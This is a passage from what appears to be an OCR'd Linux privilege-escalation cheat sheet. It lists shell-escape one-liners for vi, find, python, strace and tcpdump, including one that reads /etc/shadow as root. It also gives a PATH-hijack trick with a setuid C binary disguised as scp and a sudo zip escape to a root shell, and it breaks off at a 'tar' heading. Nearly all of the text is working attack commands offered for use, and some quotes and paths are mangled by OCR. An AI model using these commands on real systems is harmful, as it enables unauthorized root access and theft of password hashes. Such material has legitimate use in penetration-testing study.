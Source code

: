 vi
--

> $ vi  
> :!sh

find
----

> $ find / home -exec sh -i \\;

python
------

> $ python -c ‘import pty;pty.spawn(“/bin/sh”)’

strace
------

> $ strace -o /dev/null /bin/sh

tcpdump
-------

> $ echo $’id\\ncat /etc/shadow’ > /tmp/.shell  
> $ chmod +x /tmp/.shell  
> $ tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root

If you find out one script file with SUID permission, owned by root and executable by others, and this script file will execute some commands. You can play the trick to get root shell. For example here, this script will execute _scp_ command transferring some backup file to somewhere. Add . into $PATH and compile setuid.c, rename the compiled binary to scp and put it under current folder. And then run that script.

> $ export PATH=.:$PATH  
> $ cat setuid.c  
> #include <stdio.h>  
> int main(void)  
> {  
> setuid(0); setgid(0); seteuid(0); setegid(0); execvp(“/bin/sh”, NULL, NULL);  
> }  
> $ mv setuid scp  
> $ ./script.sh

\\x04 Abuse SUDO
================

Use the following command to show which command have allowed to the current user.

> $ sudo -l

And if you find the following command with NOPASSWD and root set in the output. You win again !!!  
zip
-------------------------------------------------------------------------------------------------------

> $ sudo zip /tmp/test.zip /tmp/test -T --unzip-command=”sh -c /bin/bash”

tar
---
